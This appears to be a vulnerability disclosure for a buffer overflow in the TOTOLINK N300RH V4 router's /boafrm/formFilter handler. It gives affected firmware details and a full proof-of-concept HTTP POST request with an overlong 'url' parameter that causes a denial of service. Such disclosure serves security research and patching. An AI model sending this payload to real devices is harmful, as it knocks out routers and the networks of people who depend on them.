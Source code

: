 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [N300RH_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/188.html)

**Affected firmware version:** V6.1c.1390_B20191101

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html))

# Overview

TOTOLINK N300RH V4 V6.1c.1390_B20191101 router has a serious buffer overflow vulnerability, which can be triggered by routing/boafrm/formFilter . Attackers can send malicious HTTP POST messages to achieve a denial of service attack.

# Vulnerability details

![image-20250608205511738](21/image-20250608205511738.png)

The length of the copy is not checked, which leads to overflow.

![image-20250608211027843](21/image-20250608211027843.png)



![image-20250608211157905](21/image-20250608211157905.png)

# POC		

```
POST /boafrm/formFilter HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 792
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/macfilter.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=33191248f26bbf43ce0e32f58edg5eaf&mac=&enabled=1&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&comment=&save_apply=%E5%BA%94%E7%94%A8&addFilterMacFlag=&url=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ip=1&ip6addr=aaaaa&deleteSelFilterIp=2&deleteAllFilterIp=3&applyFilterIps=&addFilterIps=5&deleteSelFilterIps=6&deleteAllFilterIps=7&addFilterUrl=1
```

![image-20250605182142397](21/image-20250605182142397.png)